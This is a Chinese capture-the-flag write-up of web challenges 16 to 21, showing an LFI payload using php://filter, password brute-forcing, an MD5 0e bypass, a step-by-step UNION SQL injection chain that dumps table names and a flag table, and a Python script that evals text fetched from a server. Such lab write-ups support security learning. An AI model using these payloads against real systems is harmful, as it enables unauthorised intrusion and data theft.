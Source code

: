 <b>16-flag在index里</b>

打开是一个触发连接。由题目提示flag在index里面，应该是让我们去查看index.php的内容。
点击click之后发现跳转的url是明显的符合LFI漏洞的形式。我们尝试去查看index.php但是没有显示出来。
尝试使用php://filter封装成base64进行查看。

`?file=php://filter/read=convert.base64-encode/resource=index.php`

直接base64解码得到flag。
这里一开始用的是php://input。查看到源码之后发现被过滤掉了input和../以及tp、data等关键词。

<b>17-输入密码查看flag</b>

打开提示是一个5位数字的密码。直接bp爆破。

<b>18-点击100万次</b>

这题做了一次又忘了...
有关js的题目也是没有条件反射。
点开是一个饼干...要你点击100万次就会得出flag。
F12 可以看到饼干计数的js代码。
js在计数的时候如果计数到了100万就会发出post请求。我们直接伪造这个请求即可。
得到flag。


<b>19-备份是个好习惯</b>

提示有备份。扫描扫出index.php.bak。
查看源码，要求得到key1和key2不相同但md5相同。md5判断处为弱类型，0e绕过。
有一个坑点，这里他使用str_replace把key替换成了空字符串。因此需要使用url编码进行绕过。

<b>20-成绩单</b>

打开发现一个输入框，输入id查询成绩。
fuzz发现存在sql注入漏洞。
走流程注入：
`1' order by 4 #`检测表单长度
`-1' union select 1,2,3,4 #`查看元素位置
`-1' union select 1,database(),user(),version() #`获取主要信息
`-1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),user(),version() #`得到表名
`-1' union select 1,(select * from fl4g),user(),version() #`直接查询表名得到flag。

>回数据库继续熟悉那张特殊的表

<b>21-秋名山老司机</b>

打开提示要求在2s内计算一个长串的表达式。
python写个eval脚本即可。
动手写一下吧...不然一直眼高手低。
。。。这么个东西也写了15多分钟。。。

```python
import requests

url='http://123.206.87.240:8002/qiumingshan/index.php'

s = requests.Session()
r = s.get(url)
express=r.text
express=express[159:]
rexp=''
for i in express:
	if i == '=':
		break
	else:
		rexp=rexp+i
print(rexp)
ans=eval(rexp)
r=s.post(url,data={'value':ans})
print(r.text)
```